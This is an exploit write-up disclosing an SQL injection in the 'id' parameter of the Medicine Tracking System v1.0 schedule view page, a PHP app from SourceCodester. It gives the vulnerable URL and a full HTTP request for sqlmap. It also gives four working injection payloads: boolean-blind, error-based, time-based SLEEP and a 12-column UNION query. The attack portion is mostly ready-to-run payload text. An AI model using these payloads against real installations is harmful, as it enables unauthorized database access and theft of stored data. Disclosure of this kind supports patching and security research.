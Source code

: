 # Exploit Title: SQLi in Medicine Tracking System Schedule view_details

Vulnerability url: /php-mts/app/?page=schedules/view_details&id=

GET parameter 'id' exists SQL injection vulnerability


### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Medicine Tracking System](https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html)
### Version:
> v 1.0


### POC
> Add request below to txt and run python sqlmap.py -r file_name.txt

```
GET /php-mts/app/?page=schedules/view_details&id=6 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: eid=1; remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; table-page-size=50; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; PHPSESSID=e67hpqdmcqi2k65669nv8cagm3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
> Payload:
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=schedules/view_details&id=6' AND 9871=9871 AND 'BvQB'='BvQB

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=schedules/view_details&id=6' AND (SELECT 1136 FROM(SELECT COUNT(*),CONCAT(0x7162767671,(SELECT (ELT(1136=1136,1))),0x7170787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'DJGU'='DJGU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=schedules/view_details&id=6' AND (SELECT 2665 FROM (SELECT(SLEEP(5)))fVOY) AND 'nXjY'='nXjY

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: page=schedules/view_details&id=-3921' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162767671,0x46695869527270724d6d6e6c6549676d7163725870557557646d584465516d6953634b6c77557546,0x7170787871),NULL,NULL,NULL,NULL-- -
```

> POC result with Sqlmap

![Example Image](https://drive.google.com/uc?id=1GhKCQ6VpX8Z4cXmJDrd5u9bbfRVU4qiv)

